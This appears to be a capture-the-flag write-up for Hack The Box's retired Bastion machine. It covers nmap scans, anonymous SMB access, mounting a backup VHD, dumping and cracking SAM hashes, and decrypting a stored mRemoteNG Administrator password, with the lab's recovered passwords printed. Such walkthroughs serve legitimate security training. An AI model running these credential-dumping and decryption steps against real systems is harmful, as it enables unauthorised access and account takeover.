

# Bastion

| | |
|---|---|
| **OS** | Windows |
| **Difficulty** | Easy |
| **Topics** | Mounting SMB Share, Mounting VHD File, Remote Share, guestmount, Dump SYSTEM SAM, Dump, samdump2, mRemoteNG, Password Crack, mRemoteNG-Decrypt |

---

## 📁 Folder Structure

- [`content/`](content/) — screenshots and inline references used in the write-up
- [`nmap/`](nmap/) — raw nmap output files
- [`exploit/`](exploit/) — exploit scripts, binaries, payloads, and other tools used

---

# Enumeration

## Nmap

SYN Scan

```python
sudo nmap -sS -p- --open --min-rate 5000 -Pn -n -v 10.10.10.134 -oN AllPorts
```

Result:

```bash
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
```

TCP Full Scan: 

```python
nmap -p22,135,139,445,5985,47001 -sCV -Pn -n -v 10.10.10.134 -oN FullScan
```

Result:

```bash
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp   open  msrpc       Microsoft Windows RPC
139/tcp   open  netbios-ssn Microsoft Windows netbios-ssn
445/tcp   open  microsof0   Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http        Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http        Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -39m56s, deviation: 1h09m14s, median: 1s
| smb2-time: 
|   date: 2023-07-07T02:45:15
|_  start_date: 2023-07-07T02:40:40
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-07-07T04:45:17+02:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

SMB Enumeration: 

```bash
smbclient -L 10.10.10.134 -N 
```

Result:

```bash
Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
```

# Initial Access

After the initial enumeration we found a remote share identified as `Backups`, by checking the content we will that it contains interesting files of a possible backup.

First access the SMB Share: 

```bash
smbclient \\\\10.10.10.134\\Backups -N
```

Results after enumeration: 



 We can several files, to make it easier we can proceed to mount the remote share in our kali

Mounting remote share:

1- Create a new folder that will contain the remote share contents

```bash
mkdir /mnt/remote
```

2- Mount the remote share:

```bash
mount -t cifs //10.10.10.134/Backups /mnt/remote -o -rw
```

Now let’s proceed to enumerate more the files: 

### SMB File Enumeration:

1- Reading the note.txt


This is likely to be a hint. It may indicate that the SMB Share contains the actual Backup file but we can’t transfer the entire file to our machine as the VPN is too slow. 

2- Checking the `WindowsImageBackup`

Folders:


Files:


As we can see, in the directory `WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351` there are 2 VHD files, which may contain valuable information. 

> A VHD (Virtual Hard Disk) file is a file format used to represent a virtual hard disk drive. It is typically associated with virtualization software such as Microsoft Hyper-V, VirtualBox, and VMware.
> 

Next step will be to also to mount the VHD Files, to do that we can transfer the files locally, however, after validating the size of the files, we will see that one of them is really big (5GB):


Additionally, remember the previous file `note.txt` that we found earlier, it suggested to not transfer files as the VPN connection was too slow. 

To overcome this, we can mount the VHD file directly from the SMB Share using the tool `guestmount`:

First, create another folder to mount the VHD file

```bash
mkdir /mnt/vhd
```

Next, mount the VHD file using `guestmount.`For this step, we need to load the VHD directly from the Remote Share that we previously mounted in `/mnt/remote`

```bash
guestmount --add /mnt/remote/share/path/to/vhdfile.vhd --inspector --ro /mnt/vhd -v
```

We will proceed to mount the second file (the 5GB) as it is likely to be the full backup of the Disk `C:\`

```bash
sudo guestmount --add /mnt/remote/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351\9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd -v
```

It will take some time to completed, hence, be patient. 

Reference: `**Mounting VHD file on Kali Linux through remote share**` 

> Note: to be able to visualize the content of the VHD file, we will need to switch to `root` account.
> 

### VHD File Enumeration:

Checking the contents of the VHD File/Folder:


As we can see from the contents, this is likely to be a full backup of the disk `C:` 

Now, that we have access to all the files without restriction, we can dump the contents of the SAM Database

Remember that SAM is part of the registry and can be found in the C Drive on the hard disk. This means that the SAM data is locally stored.

The SAM database file is stored within **`C:\Windows\System32\config`**. All of the data within the file is encrypted. The passwords hashes are stored in **HKEY_LOCAL_MACHINE\SAM**. As the primary purpose of the SAM is to increase security, its access is restricted

Based on this information, we can retrieve the contents of **`C:\Windows\System32\config` which contains the `SAM` and `SYSTEM` files, which we can later use to dump the password hashes.** 

Reference: [What is the Windows Security Accounts Manager (SAM)? (techtarget.com)](https://www.techtarget.com/searchenterprisedesktop/definition/Security-Accounts-Manager#:~:text=The%20SAM%20database%20file%20is,security%2C%20its%20access%20is%20restricted.)

Check if the files exists: 


Copy the `SAM` and `SYSTEM` files to our local machine as we need both to dump the password hashes:


Proceed to dump the password hashes using `samdump2`: 

```bash
samdump2 SYSTEM SAM
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

From the password hashes we can see 3 hashes, 2 of them belong to the Administrator and Guest users, however, they are disabled, so it’s probably that hashes are no useful at this point. 

Hence, we will only use the password hash from the username `L4mpje`

Let’s try to decrypt it using crackstation: 


Success! we have the clear-text password for the username `L4mpje`: 

Credentials:

```bash
user: L4mpje
pass: bureaulampje
```

Since the port 22 was opened, let’s try to authenticate using the credentials we just obtained:

```bash
ssh l4mpje@10.10.10.134
```

Access Granted:


# Privilege Escalation

After enumerating the permissions, services, there was no valuable information. 

However, after validating the Programs Installed, we found one that could be potentially vulnerable:


We can see a program identified as `mRemoteNG` which after investigating in internet, we found that it’s a remote connection manager, which has a vulnerability related to the storage of  credentials in the local disk. 
Looking at the changelog.txt we that the version is 1.76.11.

```bash
l4mpje@BASTION C:\Program Files (x86)\mRemoteNG>type Changelog.txt                                                                        

1.76.11 (2018-10-18):                                                                                                                                                                                                                                                           
```

According to some articles, passwords are being stored in clear-text in the file `confCons.xml` which is located in the default mRemoteNG data folder (`C:\Users\\AppData\Roaming\mRemoteNG`) or by enter the path `%appdata%/mRemoteNG`

Based on this information, let’s check the file contents.

First, let’s move to the AppData Folder:

```bash
cd %appData%\mRemoteNG
```


Retrieve the file content: 


From the file contents we can see the password of “Administrator” which seems to be encoded in Based64:

```bash
Username="Administrator" 
 Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
```

However, after decoding the password using base64 directly on linux, it did not reveal the cleartext password


This may be due to as the password is probably using a special encoder made for nRemoteNG that looks similar to base64. 

Checking the hash in [Hash Type Identifier - Identify unknown hashes](https://hashes.com/en/tools/hash_identifier) we noticed that it has more than one encoder:


Doing a quick search for possible decryptors: 


Let’s clone the repo: https://github.com/haseebT/mRemoteNG-Decrypt

```bash
git clone https://github.com/haseebT/mRemoteNG-Decrypt.git
```

According to the documentation, we need to pass the string using `-s` parameter: 

```bash
python3 mremoteng_decrypt.py -s STRING [-p CUSTOM_PASSWORD]
```

Command: 

```bash
python3 mremoteng_decrypt.py -s "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="

```

Result: 

```bash
Password: thXLHM96BeKL0ER2
```

Success! We now have in clear-text the password for the Administrator user. 

Now, let’s try to authenticate again using SSH: 

```bash
ssh Administrator@10.10.10.134
```

Access Granted: 


Reference:  [mRemoteNG: Just Loaded with "Features" - Hackers Vanguard](https://hackersvanguard.com/mremoteng-insecure-password-storage/)

[Owned Bastion from Hack The Box!](https://www.hackthebox.com/achievement/machine/906667/186)